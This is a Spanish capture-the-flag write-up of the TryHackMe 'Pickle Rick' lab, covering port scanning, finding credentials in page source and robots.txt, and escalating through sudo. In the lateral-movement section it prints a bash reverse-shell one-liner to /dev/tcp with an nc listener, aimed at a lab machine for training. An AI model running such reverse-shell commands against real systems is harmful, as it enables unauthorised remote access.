 ```yaml
---
title: "Pickle Rick - Try Hack Me"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "assets/images/machines/THM/PickleRick/data/pickleRick.png"
  teaser_home_page: true
  icon: "assets/images/icons/TryHackMe.png"
categories:
  - Writeup
  - TryHackMe
tags:
  - SUID
  - Wordpress
  - Python
  - BruteForce
---
```


<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/PickleRick/data/pickleRickTHMpng.png?raw=true">
</p>

La máquina **Pickle Rick** es una máquina virtual vulnerable de la plataforma **Try Hack Me** con un nivel de dificultad **medio**  desarrollada por **tryhackme** y publicada **24 de Septiembre del 2020** con un sistema operativo **Linux**.

# Port Scan

  Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.197.4]** utilizando los parámetros:

  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con un estatus abierto.
  - **-oG:**    Guarda la el output en formato Grepeable.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/scanPort.png">
  </p>


  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22 y 80**:  

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/Ports.png">
  </p>


  Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/PortServ.png">
  </p>

  Ya que el escaneo de versiones y servicios no mostró demasiado empezamos a enumerar un poco mas a nivel web así que entre a la pagina ya que cuenta con un servicio **http** por el puerto **80** al entrar pude ver lo siguiente:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/web.png">
  </p>

  Curios curioso vemos que esta hablando que necesita conseguir 3 ingredientes los cuales son las **flags** que buscamos y menciona que perdió una contraseña asi que puede ser una pista para nosotros, enumerando el código fuente de la pagina se puede ver a modo comentado lo siguiente:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/pass.png">
  </p>

  Ahora que tenemos un usuario el cual es **R1ckRul3s** podemos pensar que puede existir un login así que si hacemos enumeración web básica antes de emplear un fuzzing a nivel de rutas podemos probar con el recurso **Robots.txt**:


  En este caso el recurso **Robots.txt** si estaba disponible, recordar que el recursos **Robots.txt** es un recursos que nos muestra rutas existentes a nivel de directorios en las paginas web, la mayoría de las paginas lo deshabilitado ya que es una buena practica en este caso no se deshabilitó y lo podemos usar para encontrar directorios o recursos sin necesidad de hacer fuerza bruta.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/wubba.png">
  </p>

  Vemos que tiene un recurso llamado **"Wubbalubbadubdub"** pero vemos que si entramos por la pagina web a este supuesto subdirectorio nos marca como error 404 el cual indica que no existe, ya que vimos esto intentamos buscar otras formas de encontrar rutas así que si buscamos algo clásico como "login.php" puede y encontremos algo:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/log.png">
  </p>

  Excelente ahora que tenemos un login podemos usar la credencial de usuario que encontramos en el código fuente y ya que lo que encontramos en Robots no fue un directorio lo usaremos como contraseña:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/webcmd.png">
  </p>

  ## Lateral Movement

  Super bien vemos que tenemos un panel el cual se llama **"Command Panel"** lo que es mas que obvio que es una gran pista, ingresamos un **"whoami"** y vemos que nos responde la maquina como el usuario **"www-data"**

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/whoami.png">
  </p>

  Así que si vemos que tenemos ejecución de comando pues entonces nos daremos una shell.
  Para esto me pondré por el puerto 443 en escucha con el comando ```nc -nlvp 443``` y en la web pondré lo siguiente:

  ```bash
    /bin/bash -c 'bash -i >& /dev/tcp/[Your IP]/443 0>&1'
  ```

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/intrusion/shell1.png">
  </p>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/intrusion/shell2.png">
  </p>

  Como vemos en nuestra consola ya tenemos acceso a la maquina y vemos que el mismo directorio se encuentra la primer flag y yendo a la ruta /home veo que hay dos usuarios, la carpeta de usuario **rick** se puede encontrar la segunda flag:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/intrusion/flag1.png">
  </p>
  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/intrusion/flag2.png">
  </p>

  ## Privilege escalation

  Ahora es momento de escalar privilegios para eso vemos si el usuario en el que actualmente estamos tiene algún permiso especial a nivel de **sudo** sin proporcionar contraseña eso lo vemos con el comando ```sudo -l```.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/intrusion/sudo.png">
  </p>

  Y sorprendentemente tenemos a nivel de **sudo** si proporcionar contraseña tenemos permisos absolutos así que podemos spawnearnos una shell con el siguiente comando:

  ```bash
  sudo /bin/bash
  ```
  Y como vemos ya somos root en la maquina a si que nos dirigimos al directorio de root y podemos visualizar la ultima flag y así concluyendo esta maquina.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/intrusion/root.png">
  </p>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/intrusion/flag3.png">
  </p>
